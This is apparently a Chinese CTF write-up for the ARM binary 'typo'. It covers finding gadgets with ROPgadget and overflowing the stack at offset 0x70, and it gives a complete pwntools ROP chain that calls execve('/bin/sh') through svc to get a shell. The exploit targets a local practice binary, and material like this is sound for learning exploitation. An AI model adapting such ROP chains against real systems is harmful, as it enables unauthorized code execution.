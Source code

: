 ROPgadget --binary 'main' --string '/bin/sh'

ROPgadget --binary 'main' --only 'svc' --thumb

### 溢出篡改返回地址
栈帧结构如下：

fp lr

-0x4 fp

-0x8 r4

-0x70 overflow

恢复现场：

SUB SP, FP, \#8

POP {R4,FP,PC}

所以可以构造 b'a'\*0x70+p32(addr) 篡改pc
### 布置rop，配置好参数，blx调用svc
from pwn import \*

context(log_level='debug')

\#io = process(\['qemu-arm',"-g","1234",'./typo'\])

io = process(\['qemu-arm','./typo'\])

io.sendlineafter("quit\n","")

payload = 'a'\*112

payload += p32(0x00020904) \# pop {r0, r4, pc}

payload += p32(0x0006C384) \# /bin/sh

payload += p32(0)

payload += p32(0x00014068) \# pop {r7, pc}

payload += p32(0)

payload += p32(0x00008160) \# pop {r3, pc}

payload += p32(0x00014a70) \# pop {r3, r4, r7, pc}

payload += p32(0x00033aa4) \# mov r1, r7; blx r3

payload += p32(0x000482fc) \# svc \#0

payload += p32(0)

payload += p32(0xb)

payload += p32(0x0003338c) \# mov r2, r4; blx r3;

io.sendline(payload)

io.interactive()
## ret2csu

